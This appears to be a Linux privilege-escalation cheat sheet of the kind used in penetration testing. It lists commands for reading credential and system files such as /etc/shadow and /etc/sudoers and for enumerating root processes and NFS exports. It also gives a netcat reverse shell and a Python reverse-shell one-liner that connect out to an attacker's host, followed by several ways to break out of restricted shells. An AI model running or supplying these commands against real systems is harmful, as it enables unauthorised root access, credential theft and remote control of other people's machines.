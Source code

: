 If there is a **cronjob** that runs as run but it has incorrect file permissions, you can change it to run your SUID binary and get a shell.

The following command will list processes running by root, permissions and NFS exports.

```text
echo 'services running as root'; ps aux | grep root;  echo 'permissions'; ps aux | awk '{print $11}'|xargs -r ls -la 2>/dev/null |awk '!x[$0]++'; echo 'nfs info'; ls -la /etc/exports 2>/dev/null; cat /etc/exports 2>/dev/null
```

Use netstat to find other machines connected

```text
netstat -ano
```

#### Confidential information and users

```text
id
su
sudo -l
cat /etc/passwd
cat /etc/shadow
cat /etc/group
cat /etc/sudoers # who is in there are you?
ls -alh /var/mail/
ls -ahlR /root
ls -ahlR /home/
```

```text
grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 {print $1}' #any other super users?
```

## Restricted Shell

You may encounter limited shells that use rbash and only allow you to execute a single command per session. You can overcome this by executing an SSH shell to your localhost:

Its important to upgrade your shell as you may run a command which outputs to the terminal. If you don't upgrade it you wont see the output. IE running exploits.

```text
ssh user@$ip nc $localip 4444 -e /bin/sh
enter user's password
python -c 'import pty; pty.spawn("/bin/sh")'
export TERM=linux
```

```text
python -c 'import pty; pty.spawn("/bin/sh")'
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);          s.connect(("$ip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'
echo os.system('/bin/bash')
/bin/sh -i
perl —e 'exec "/bin/sh";'
perl: 
exec "/bin/sh";
ruby: 
exec "/bin/sh"
lua:
os.execute('/bin/sh')
From within IRB:
exec "/bin/sh"
From within vi:
 :!bash or
:set shell=/bin/bash:shell
```